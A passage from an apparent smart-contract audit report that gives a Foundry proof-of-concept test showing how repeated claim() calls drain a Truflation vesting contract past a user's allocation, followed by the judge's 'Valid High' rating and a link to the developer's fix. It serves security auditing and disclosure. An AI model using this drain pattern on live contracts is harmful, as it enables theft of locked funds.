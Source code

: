 ```solidity
    function test_cliffVestingDrain() public { 
        _setupVestingPlan();
        uint256 categoryId = 2;
        uint256 vestingId = 0;
        uint256 stakeAmount = 10e18;
        uint256 duration = 30 days;

        vm.startPrank(owner);
        
        vesting.setUserVesting(categoryId, vestingId, alice, 0, stakeAmount);

        vm.warp(block.timestamp + 11 days);     // warping 11 days, because initial release period is 10 days
                                                // and cliff is at 20 days. We need to be in the middle 
        vm.startPrank(alice);
        assertEq(trufToken.balanceOf(alice), 0);
        vesting.claim(alice, categoryId, vestingId, type(uint256).max);
        
        uint256 balance = trufToken.balanceOf(alice);
        assertEq(balance, stakeAmount * 5 / 100);  // Alice should be able to have claimed just 5% of the vesting 

        for (uint i; i < 39; i++ ){ 
            vesting.claim(alice, categoryId, vestingId, type(uint256).max);
        }
        uint256 newBalance = trufToken.balanceOf(alice);   // Alice has claimed 2x the amount she was supposed to be vested. 
        assertEq(newBalance, stakeAmount * 2);             // In fact she can keep on doing this to drain the whole contract
    }
```




## Discussion

**sherlock-admin2**

1 comment(s) were left on this issue during the judging contest.

**Shaheen** commented:
>  Valid High. Solid Catch



**ryuheimat**

https://github.com/truflation/truflation-contracts/pull/3

Fixed `claimable` function

# Issue H-2: VotingEscrowTruf.sol#migrateVestingLock() 
